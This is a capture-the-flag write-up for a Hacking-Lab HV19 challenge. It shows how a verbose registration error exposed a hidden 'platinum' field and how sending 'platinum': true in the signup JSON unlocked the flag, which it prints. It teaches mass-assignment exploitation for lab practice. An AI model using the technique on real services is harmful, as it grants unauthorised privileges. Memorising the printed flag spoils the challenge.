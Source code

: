 # 11 - Santas Quick Response 3.0

## Description

Level: Medium<br/>
Author: inik

The elves created an API where you get random jokes about santa.

Go and try it here: [http://whale.hacking-lab.com:10101](http://whale.hacking-lab.com:10101)

## Solution

This challenge was straightforward. There is an API where we can create new users and request random jokes. Each joke
looked like this:

```json
{
   "joke": "Three phrases that sum up Christmas are: Peace on Earth, Goodwill to Men, and Batteries not Included.",
   "author": "Author Unknown",
   "platinum": false
}
```

It was clear that the goal was to get a platinum joke which would then contain the flag. Whilst trying to register a new
user, I received the following error message when trying to add new properties to the JSON object:

```json
Unrecognized field "test" (class ch.dkuhn.hv19.fsja.model.User), not marked as ignorable (3 known properties: "password", "platinum", "username"])
 at [Source: org.glassfish.jersey.message.internal.ReaderInterceptorExecutor$UnCloseableInputStream@28f46ce4; line: 1, column: 68] (through reference chain: ch.dkuhn.hv19.fsja.model.User["test"])
```

Now that I knew that the `User` class has an attribute called `platinum` I simply created a new user where `platinum` was
set to `true`:

```json
{
   "username": "some_username",
   "password": "some_password",
   "platinum": true
}
```

Accessing the joke endpoint then returned the flag:

```json
{
   "joke": "Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}",
   "author": "Santa",
   "platinum": true
}
```
